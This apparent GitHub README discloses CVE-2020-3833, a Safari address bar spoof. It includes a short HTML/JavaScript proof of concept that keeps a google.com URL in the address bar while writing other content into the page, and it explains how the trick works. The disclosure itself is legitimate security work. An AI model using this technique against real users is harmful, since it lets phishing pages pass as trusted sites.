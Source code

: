 # Safari Address Bar Spoof (CVE-2020-3833)

In browsers, an address bar represents the current web address.

## Address bar spoof vulnerability 

It is an ability to keep legit URL in the address bar while loading the content from other domain. This makes the user believe that the content is served by a legit domain. For example, the browser is displaying https://www.google.com in the address bar or Omni-box while rendering the content from https://www.evil.com

The basics idea to find such vulnerabilities is to first initiate the javascript call and then interrupt it. 

## Proof of concept code
```
<html>
    <head>
        <title>Address Bar Spoof!</title>
    </head>
    <body>
        <script>
            function demo() {
            var evilPage = 'PGh0bWw+Cjx0aXRsZT4KZ29vZ2xlLmNvbQo8L3RpdGxlPgo8Ym9keT4KPGgzPkFkZHJlc3MgQmFyIFNwb29mIC1AQzBkM0czM2s8L2gzPgo8L2JvZHk+CjwvaHRtbD4=';
                var x = window.open('','');
                setInterval(function(){x.location.replace('https://www.google.com:8080');});
                x.document.write(atob(evilPage));
            }
        </script>
        <button onclick="demo();">test</button>
    </body>
</html>
```

Here first we invoked a window.open() method and then we changed the location of that window to invalid port URL and right after we write into the DOM using document.write() method. Since we provided an invalid port URL browser will keep displaying it while displaying the content from attackers domain. we can achieve 30+ seconds spoof using this vulnerability 

## Video demonsttation

![poc](https://github.com/c0d3G33k/Safari-Adress-Bar-Spoof-CVE-2020-3833-/blob/master/Safari-address-bar-spoof.gif)
